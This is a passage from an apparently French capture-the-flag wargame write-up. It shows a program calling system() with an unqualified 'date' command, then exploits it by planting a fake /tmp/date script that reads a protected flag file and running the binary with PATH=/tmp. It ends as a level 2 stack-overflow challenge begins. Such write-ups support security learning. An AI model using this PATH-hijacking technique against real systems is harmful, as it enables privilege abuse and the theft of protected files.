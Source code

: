 The program relies on **date** and calls to system() for its features:

    $ ltrace ./prog.bin
    [...]
    system("date '+Nous sommes le %d/%m/%Y e"...
    [...]

This behavior is confirmed thanks to IDA:

![defi2 - exec](defi2-exec.png)

The flag content is then easy to get:

    $ echo "/bin/cat /home/defi1/drapeau.txt" > /tmp/date
    $ chmod +x /tmp/date
    $ PATH=/tmp ./prog.bin <<< 1

# Wargame - level 2

## Theory

*Bis repetita placent*, but this time the target seems ready for a stackoverflow-based exploitation :

![defi2](defi2.png)

The program is a login/password checker:
